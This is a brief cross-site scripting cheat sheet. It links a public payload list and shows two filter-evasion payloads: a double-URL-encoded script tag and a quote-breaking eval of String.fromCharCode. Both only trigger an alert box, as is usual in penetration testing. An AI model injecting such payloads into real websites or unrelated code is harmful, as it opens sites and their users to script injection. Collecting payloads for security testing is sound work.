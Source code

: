<h1>XSS</h1>
https://github.com/payloadbox/xss-payload-list 
<h3>XSS double encoding</h3>
* Double encoded <script>alert('XSS')</script>

%253Cscript%253Ealert('XSS')%253C%252Fscript%253E

<h3>Alert Encoded<h3>
';eval(String.fromCharCode(97,108,101,114,116,40,39,115,97,103,105,111,108,115,104,97,110,115,107,121,39,41));b='
